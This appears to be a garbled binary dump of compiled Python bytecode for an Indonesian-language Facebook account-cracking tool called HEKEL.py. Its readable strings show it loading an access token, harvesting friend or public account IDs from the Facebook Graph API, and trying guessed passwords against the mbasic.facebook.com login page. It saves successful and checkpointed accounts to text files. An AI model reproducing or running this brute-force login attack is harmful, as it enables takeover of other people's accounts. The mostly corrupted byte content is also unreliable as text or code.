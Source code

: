 t���786786R¤���R£���t���000786(���R���R¦���R§���R[���R\���Rb���R]���R^���R_���R‚���R¨���RI���R���R`���R©���Rª���R«���( ���t���artt���eft���ahRÅ���t���pbt���rept���xsR²���R³���t���pb2t���pb3t���pb4t���pb5(����(����s���/sdcard/HEKEL.pyR·���Ú��sª���� 7 7 7 7 7 i���sž��� [1;94mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€s-���[1;97m([1;94mâ€¢[1;97m) [1;97mSelesai ...sS���[1;97m([1;94mâ€¢[1;97m) [1;97mTotal [1;92mOK[1;97m/[1;93mCP [1;97m: [1;92ms���[1;97m/[1;93ms^���[1;97m([1;94mâ€¢[1;97m) [1;97mSalin hasil crack lalu simpan[1;91m : [1;97mdone pakis.txti2���s ���[1;94mâ”€s���[1;97m([1;91mKembali[1;97m) (#���R%���RÌ���R���R���RŠ���R ���R���R[���R\���Rb���R]���R^���R_���Rc���Rª���RK���R˜���Ra���R���R���RI���R¸���R¹���RL���RŽ���Rº���R»���R���R ���R���R����R¼���R©���R«���RJ���(���R½���R2���R���R¾���R¿���RÀ���RÁ���RÂ���RÃ���RÄ���R���R���R·���RÅ���(����(����s���/sdcard/HEKEL.pyRÌ���†��s¦���� \) c�����������C���sé���t��j�d�ƒ�y�t�d�d�ƒ�j�ƒ��a�Wn7�t�k �r_�d�GHt��j�d�ƒ�t�j�d�ƒ�t�ƒ��n�Xt��j�d�ƒ�t�GHd�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d �GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�t �ƒ��d��S( ���NR���s���login.txtR2���s���([0;91m![0;97m) Token Invalids���rm -rf login.txti���s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€gìQ¸…ë±?s)���[0;97m1).[0;97m Crack Dari Daftar Temans)���[0;97m2).[0;97m Crack Dari Publik/Temans!���[0;97m3).[0;97m Crack Dari Files ���[0;91m0[0;97m).[0;97m Kembali(���R���R���RI���R����Rb���RL���R ���R���R���RŠ���t���pilih_hindi(����(����(����s���/sdcard/HEKEL.pyR™���A��s.���� c����������C���s ��t��d�ƒ�}��|��d�k�r'�d�GHt�ƒ��n|��d�k�r¥�t�j�d�ƒ�t�GHd�GHt�j�d�ƒ�t�j�d�t�ƒ�}�t �j�|�j�ƒ�}�x¹|�d�D]�}�t �j�|�d �ƒ�q‡�Wn“|��d�k�rÎt�j�d�ƒ�t�GHd�GHt�j�d�ƒ�t��d�ƒ�}�t�j�d�ƒ�y>�t�j�d �|�d�t�ƒ�}�t �j�|�j�ƒ�}�d�|�d�GHWnI�t�k �rUd�GHt��d�ƒ�t�ƒ��n#�t�j�j�k �rwd�GHt�ƒ��n�Xt�j�d �|�d�t�ƒ�}�t �j�|�j�ƒ�}�x�|�d�D]�}�t �j�|�d �ƒ�q°Wnj|��d�k�sæ|��d�k�r¦t�j�d�ƒ�t�GHyb�d�GHt�j�d�ƒ�t��d�ƒ�}�t�j�d�ƒ�x0�t�|�d�ƒ�j�ƒ��D]�}�t �j�|�j�ƒ��ƒ�q<WWqÔt�k �r|d�GHt��d�ƒ�qÔt�k �r¢d�GHt��d�ƒ�t�ƒ��qÔXn.�|��d�k�s¾|��d�k�rÈt�ƒ��n�d�GHt�ƒ��d�t�t�t �ƒ�ƒ�GHt�j�d�ƒ�d�d �d!�g�} �x0�| �D](�}�d"�|�Gt�j�j�ƒ��t�j�d#�ƒ�qWd$�GHt�j�d�ƒ�d%�GHt�j�d�ƒ�d&�GHt�j�d�ƒ�d'�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d(�„��}�t�d)�ƒ�} �| �j�|�t �ƒ�d*�GHd+�GHd,�t�t�t �ƒ�ƒ�d-�t�t�t!�ƒ�ƒ�GHd.�GHd/�d0�GHt��d1�ƒ�t"�ƒ��d��S(2���Ns ���[1;97m(?) Pilih [94m> [1;97m R���s���([0;91m![0;97m) Isi Yg BenarR ���R���s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€gìQ¸…ë±?s3���https://graph.facebook.com/me/friends?access_token=Rf���Rc���R!���s5���[1;97m([0;94mâ€¢[0;97m) ID Publik [0;91m:[0;97m s���https://graph.facebook.com/s���?access_token=s0���[1;97m([0;94mâ€¢[0;97m) Nama [0;91m:[0;97m Rj���s+���([0;91m![0;97m) ID publik/teman tidak adas��� [1;97m([1;91mKembali[1;97m)s*���[1;97m([0;91m![0;97m) Tidak ada koneksis���/friends?access_token=R"���R����s<���[1;97m([1;94mâ€¢[1;97m) [1;97mNama File[1;91m :[1;97m R2���s#���([0;91m![0;97m) File tidak ada ! s���[1;97m([1;91mKembali[1;97m)s"���([0;91m![0;97m) File tidak ada !R$���Rž���s4���[0;97m([0;94mâ€¢[0;97m) Total Id[1;91m :[1;97m s���. s���.. s���... s$��� ([0;94mâ€¢[0;97m) Crack Berjalan i���sž��� [0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€s9���[0;97m Lama Hasil Gunakan Mode Perawan 3 Detik JossðŸ‘�s4���[0;97m Untuk Menghentikan Proses, Tekan CTRL + zs7���[0;97m Sedang Proses Mohon Bersabar, Semoga Beruntungc���������S���s"��|��}�y�t��j�d�ƒ�Wn�t�k �r*�n�Xyét�j�d�|�d�t�ƒ�}�t�j�|�j�ƒ�}�d�}�t�j�d�d�i�|�d�6|�d�6d�d �6d�i�d�d �6ƒ}�|�j �}�d�|�k�s¹�d�|�k�rd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nûd�|�k�rƒd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�n�|�d�d�}�t�j�d�d�i�|�d�6|�d�6d�d �6d�i�d�d �6ƒ}�|�j �}�d�|�k�séd�|�k�rHd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nËd�|�k�r³d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�n`|�d�d�} �t�j�d�d�i�|�d�6| �d�6d�d �6d�i�d �d �6ƒ}�|�j �}�d�|�k�sd�|�k�rxd�|�d�| �d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�| �ƒ�|�j �ƒ��t�j�|�ƒ�n›d�|�k�rãd�|�d�| �d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�| �ƒ�|�j �ƒ��t�j�|�ƒ�n0|�d�d!�}�t�j�d�d�i�|�d�6|�d�6d�d �6d�i�d"�d �6ƒ}�|�j �}�d�|�k�sId�|�k�r¨d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nk�d�|�k�rd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�n��Wn�n�Xd��S(#���NRŸ���s���https://graph.facebook.com/s���/?access_token=RÍ���s%���https://mbasic.facebook.com/login.phpRf���R4���R5���RU���R0���Rt���si���Mozilla/5.0 (Linux; U; Android 2.2) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1s